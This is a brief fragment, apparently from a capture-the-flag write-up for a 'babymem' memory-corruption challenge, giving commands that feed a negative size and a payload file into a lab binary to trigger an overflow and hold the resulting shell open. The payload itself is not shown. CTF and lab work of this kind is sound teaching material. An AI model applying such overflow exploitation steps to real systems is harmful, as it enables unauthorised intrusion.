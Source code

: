 Use the following commands.

```
./run.py
(echo "-1"; cat payload; cat) | /babymem_level4_testing2
```
